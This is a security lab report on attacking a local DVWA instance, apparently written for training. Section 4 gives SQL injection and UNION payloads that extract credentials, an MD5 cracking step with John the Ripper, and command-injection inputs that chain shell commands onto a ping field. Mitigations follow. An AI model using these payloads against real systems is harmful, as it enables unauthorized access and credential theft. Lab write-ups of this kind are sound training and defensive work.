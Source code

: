 # Lab Report — Accessing Admin Panel (DVWA)

**Author:** [Matthew Chidiebere Chukwuorji]  
**Date:** 2025-09-12  
**Target:** DVWA (Damn Vulnerable Web Application) running locally on Kali (`http://127.0.0.1/dvwa`)  
**Scope:** Local lab / authorized testing only

---

## 1. Objective
Demonstrate exploitation techniques (SQL Injection and Command Injection) on a controlled DVWA instance to access the admin panel, extract credentials, and demonstrate remote command execution as the web user.

---

## 2. Environment
- Host OS: Kali Linux (local VM)  
- Application: DVWA (installed at `/var/www/html/dvwa`)  
- Services: Apache2, MySQL  
- DVWA Security level: **Low**

---

## 3. Vulnerabilities Identified
1. **SQL Injection — Authentication & Data Exfiltration (High)**  
   - Unsanitized input allowed injection and `UNION` queries to enumerate and exfiltrate data from the `users` table.

2. **Command Injection — Remote Command Execution (High)**  
   - The ping/host input was passed to a shell enabling arbitrary command execution as the web server user.

3. **Weak Password Storage — MD5 (High)**  
   - Passwords were stored using MD5 which facilitated rapid cracking of extracted password hashes.

---

## 4. Steps Performed (reproducible)
> Ensure DVWA is running locally and Security = Low.

### A. Verify SQL Injection
1. DVWA → **SQL Injection** lab.  
2. Input: 1' OR '1'='1
3. Result: Multiple rows returned confirming SQL injection.

### B. Extract credentials via UNION
1. SQLi lab input: ' UNION SELECT user, password FROM users#
2. Result: Returned rows containing `user` and `password` (hashes or plaintext). Saved the hash to `hashes.txt`.

### C. Crack MD5 hashes
# save the hash 
echo "5f4dcc3b5aa765d61d8327deb882cf99" > hashes.txt

# crack with John (MD5)
sudo john --wordlist=/usr/share/wordlists/rockyou.txt --format=raw-md5 hashes.txt
sudo john --show --format=raw-md5 hashes.txt

### D. Command Injection Payloads
127.0.0.1 && uname -a       # show OS info
127.0.0.1 && id             # show effective user
127.0.0.1 && ls -la /var/www/html   # list webroot directory

## 5. Severity
1. SQL Injection: High (direct access to sensitive data and authentication bypass).
2. Command Injection: High (remote command execution).
3. MD5 password storage: High (practical to crack weak passwords).
4. Overall risk: High for a production system

## 6. Impact
1. Full disclosure of user credentials (including admin).
2. Unauthorized administrative access to web app (dashboard).
3. Potential data exfiltration, account takeover, and further lateral movement if host is not isolated.
4. Remote command execution as web user — may lead to privilege escalation depending on host configuration.
5. Business Impact:* *Severe* — potential data breach, regulatory fines, reputational damage, and financial loss if in production.
6. Availability:* *Medium* — attacker could delete data, deface pages, or cause service disruption.
7. Integrity:* *High* — attacker can modify or delete data, create or edit accounts, change app settings.
8. Confidentiality:* *High* — attacker can view protected/admin-only data. 

## 7. Mitigation & Recommendations

### Immediate

Harden deployment (remove test pages), keep DVWA off public networks, and enforce rate-limiting/account lockout.

Replace MD5-stored passwords and force resets if this were production.

### Developer / code changes

Use parameterized queries / prepared statements (no string concatenation).

Never pass raw user input to shell commands; use safe libraries/APIs and strict whitelists (e.g., IPv4 regex).

Migrate password storage to bcrypt/Argon2 with per-user salts and proper cost factor.

Ensure DB accounts are least-privilege.

### Operational

Deploy a WAF to detect/block SQLi/command injection patterns.

Enable logging, monitoring, and alerting for suspicious activity.

Schedule SAST/DAST scans and developer secure-coding training







